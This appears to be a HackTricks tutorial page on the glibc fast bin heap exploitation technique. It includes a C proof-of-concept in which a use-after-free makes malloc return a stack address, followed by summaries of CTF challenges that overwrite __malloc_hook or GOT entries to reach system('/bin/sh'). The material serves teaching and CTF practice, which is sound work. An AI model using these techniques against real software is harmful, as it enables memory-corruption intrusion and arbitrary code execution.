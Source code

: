 # Fast Bin Attack

{{#include ../../banners/hacktricks-training.md}}

## Basic Information

For more information about what is a fast bin check this page:

{{#ref}}
bins-and-memory-allocations.md
{{#endref}}

Because the fast bin is a singly linked list, there are much less protections than in other bins and just **modifying an address in a freed fast bin** chunk is enough to be able to **allocate later a chunk in any memory address**.

As summary:

```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```

You can find a full example in a very well explained code from [https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
    puts("Today we will be discussing a fastbin attack.");
    puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
    puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
    puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
    puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
    puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
    puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
    puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
    puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

    puts("Let's start, we will allocate three chunks of size 0x30\n");
    unsigned long *ptr0, *ptr1, *ptr2;

    ptr0 = malloc(0x30);
    ptr1 = malloc(0x30);
    ptr2 = malloc(0x30);

    printf("Chunk 0: %p\n", ptr0);
    printf("Chunk 1: %p\n", ptr1);
    printf("Chunk 2: %p\n\n", ptr2);


    printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

    int stackVar = 0x55;

    printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

    printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

    char *data0 = "00000000";
    char *data1 = "11111111";
    char *data2 = "22222222";

    memcpy(ptr0, data0, 0x8);
    memcpy(ptr1, data1, 0x8);
    memcpy(ptr2, data2, 0x8);

    printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

    printf("Chunk 0: %s\n", (char *)ptr0);
    printf("Chunk 1: %s\n", (char *)ptr1);
    printf("Chunk 2: %s\n\n", (char *)ptr2);

    printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

    free(ptr0);
    free(ptr1);
    free(ptr2);

    printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
    printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
    printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

    printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


    printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
    printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

    *ptr1 = (unsigned long)((char *)&stackVar);

    printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


    printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
    printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

    unsigned long *ptr3, *ptr4, *ptr5;

    ptr3 = malloc(0x30);
    ptr4 = malloc(0x30);
    ptr5 = malloc(0x30);

    printf("Chunk 3: %p\n", ptr3);
    printf("Chunk 4: %p\n", ptr4);
    printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

    printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```

> [!CAUTION]
> If it's possible to overwrite the value of the global variable **`global_max_fast`** with a big number, this allows to generate fast bin chunks of bigger sizes, potentially allowing to perform fast bin attacks in scenarios where it wasn't possible previously. This situation useful in the context of [large bin attack](large-bin-attack.md) and [unsorted bin attack](unsorted-bin-attack.md)

## Examples

- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html)**:**
  - It's possible to allocate chunks, free them, read their contents and fill them (with an overflow vulnerability).
    - **Consolidate chunk for infoleak**: The technique is basically to abuse the overflow to create a fake `prev_size` so one previous chunks is put inside a bigger one, so when allocating the bigger one containing another chunk, it's possible to print it's data an leak an address to libc (`main_arena+88`).
    - **Overwrite malloc hook**: For this, and abusing the previous overlapping situation, it was possible to have 2 chunks that were pointing to the same memory. Therefore, freeing them both (freeing another chunk in between to avoid protections) it was possible to have the same chunk in the fast bin 2 times. Then, it was possible to allocate it again, overwrite the address to the next chunk to point a bit before `__malloc_hook` (so it points to an integer that malloc thinks is a free size - another bypass), allocate it again and then allocate another chunk that will receive an address to malloc hooks.\
      Finally a **one gadget** was written in there.
- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html)**:**
  - There is a heap overflow and use after free and double free because when a chunk is freed it's possible to reuse and re-free the pointers
    - **Libc info leak**: Just free some chunks and they will get a pointer to a part of the main arena location. As you can reuse freed pointers, just read this address.
    - **Fast bin attack**: All the pointers to the allocations are stored inside an array, so we can free a couple of fast bin chunks and in the last one overwrite the address to point a bit before this array of pointers. Then, allocate a couple of chunks with the same size and we will get first the legit one and then the fake one containing the array of pointers. We can now overwrite this allocation pointers to make the GOT address of `free` point to `system` and then write `"/bin/sh"` in chunk 1 to then call `free(chunk1)` which instead will execute `system("/bin/sh")`.
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html)
  - Another example of abusing a one byte overflow to consolidate chunks in the unsorted bin and get a libc infoleak and then perform a fast bin attack to overwrite malloc hook with a one gadget address
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html)
  - After an infoleak abusing the unsorted bin with a UAF to leak a libc address and a PIE address, the exploit of this CTF used a fast bin attack to allocate a chunk in a place where the pointers to controlled chunks were located so it was possible to overwrite certain pointers to write a one gadget in the GOT
  - You can find a Fast Bin attack abused through an unsorted bin attack:
    - Note that it's common before performing fast bin attacks to abuse the free-lists to leak libc/heap addresses (when needed).
- [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
  - We can only allocate chunks of size greater than `0x100`.
  - Overwrite `global_max_fast` using an Unsorted Bin attack (works 1/16 times due to ASLR, because we need to modify 12 bits, but we must modify 16 bits).
  - Fast Bin attack to modify the a global array of chunks. This gives an arbitrary read/write primitive, which allows to modify the GOT and set some function to point to `system`.

{{#ref}}
unsorted-bin-attack.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}


